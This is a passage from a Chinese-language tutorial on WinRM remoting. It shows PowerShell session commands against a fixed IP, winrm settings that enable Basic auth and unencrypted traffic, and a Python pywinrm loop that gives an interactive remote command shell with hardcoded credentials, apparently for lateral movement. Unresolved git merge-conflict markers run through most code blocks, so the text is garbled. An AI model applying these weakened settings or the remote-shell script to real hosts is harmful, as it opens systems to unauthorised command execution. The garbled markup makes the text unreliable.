[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135324-2d4814ac-dd10-1.png)

新建一个会话但是不进入

```bash
New-PSSession -Name test -ComputerName 192.168.3.170 -Credential  micle
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135329-3025dace-dd10-1.png)

查看所有会话

```bash
Get-PSSession
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135333-329000a0-dd10-1.png)

进入 `ID` 为 1 的 `WinRM` 会话中

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
Enter-PSSession -id 1
```

进入 `Name` 为 `test` 的 `WinRM` 会话中

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
Enter-PSSession -Name test
```

## 使用 Python 远程连接 WinRM

服务端需要进行如下配置

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
#为 winrm service 配置 auth:
winrm set winrm/config/service/auth '@{Basic="true"}'

#为 winrm service 配置加密方式为允许非加密：
winrm set winrm/config/service '@{AllowUnencrypted="true"}'
```

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135339-367a1c82-dd10-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135339-367a1c82-dd10-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

安装库 `pip install pywinrm`  
运行以下代码即可

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
import winrm
while True:
    cmd = input("$: ")
    wintest = winrm.Session('http://192.168.3.170:5985/wsman',auth=('micle','admin'))
    ret = wintest.run_cmd(cmd)
    print(ret.std_out.decode("GBK"))
    print(ret.std_err.decode())
```

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135348-3b8b3d50-dd10-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135348-3b8b3d50-dd10-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
